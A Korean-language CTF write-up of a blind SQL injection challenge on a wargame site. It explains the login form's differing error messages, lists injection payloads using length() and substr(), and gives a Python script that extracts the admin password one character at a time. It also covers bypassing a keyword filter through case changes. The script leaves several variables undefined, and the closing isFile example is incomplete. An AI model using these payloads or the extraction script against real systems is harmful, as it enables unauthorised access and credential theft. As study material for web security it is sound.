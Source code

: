 # 문제

- Blind SQL Injection

- 아이디와 패스워드 값을 입력받는다.

- 일치하면 로그인 성공이 뜨고, 아니면 로그인 실패를 출력해준다.

  

# 풀이

- 블라인드 SQL 인젝션을 정식으로(?) 처음 하므로, 풀이보다는 분석 및 이해글이 되겠다.

- 특이점

  ##### Wrong password

  - id에 `guest' or 1=1 -- `, password에 아무거나 입력하면

    wrong password가 출력된다.

  - 그런데 sql 쿼리가 아닌, id에 `guest` password에 아무거나 입력하면

    그냥 login failed가 뜬다.

    - 왜 이때는 wrong password가 안뜨는거지? 똑같이 패스워드만 틀린건데

  - 정답!

    - 서버에서는 이렇게 구성되있는것이다.
    - 입력받은 id와 password를 DB를 조회,
    - 조회한 뒤, 가져온 값과 입력값 비교
      - 조회에 실패하면, login failed
      - 조회에 성공했는데, 입력값과 일치하지 않으면 Wrong password
      - 일치하면 login successful

- 대충 이해했으므로 풀어보자

- admin의 패스워드 값을 찾아야 할 것 같다.

- length로 길이를 확인해보자

  - `admin' and length(pw)=36 --` 

- substr로 패스워드값을 하나씩 확인해보자

  - id값 입력
    - `admin' and substr(pw, 1,1)='a' -- `

- 코딩을 해보자

  ```python
      len_flag = 36
      pw = 'guest'
      keys = 'abcdefghijklnmopqrstuvwxyz1234567890ABCDEFGHIJKLNMOPQRSTUVWXYZ!@#$%^&*()_+=-{}'
      while idx <= 36:
          for cur in keys:
              id = 'admin\' and substr(pw,{0},1)=\'{1}\' -- '.format(idx, cur)
              print 'id: ' + id
              getParam = '?id={0}&pw={1}'.format(id, pw)
              res = requests.get('http://www.webhacking.kr/'+page+getParam, cookies = cookies)
              if res.text.find('wrong password')!= -1:
                  flag+=cur
                  print 'found!!!'
                  print 'current: ' + cur
                  print 'corrected flags: ' + flag
                  f.write(flag+':'+str(idx)+'\n')
                  break
          idx += 1
      print 'found the flag successfully...'
      print 'flag: ' + flag
  ```

  



# 알게된 것

### Select 키워드 우회

- php에서는 대소문자를 구별하지만, sql에서는 구별하지 않으므로
  - seLeCt와 같이 우회할 수 있다.



### substr

- sql의 내장함수

- substr()글자를 쪼개서 반환할 수 있다.

- substr('abcd', 1, 1), return 'a'

- `or substr(select pw from table where id='admin', 1, 1)='a'` 의 형태로 특정 컬럼값을 확인할 수 있다.

- 테이블 속성값을 지정할 수 있다.

  - 위 문제에서 `admin' and substr(pw, 1,1)='a'`의 형태로 질의할 경우

    - 앞의 select * from table where id = 'admin' 의 결과값(admin의 정보)에서 pw 속성에 해당하는 값을 비교하게 된다.

### isFile

- 파일 존재유무 판단 함수 in python

- 예시

  ```python
  import os
  
  if os.path.isFile('flag'):
  	print 'yes'
  else:
  	
  ```

  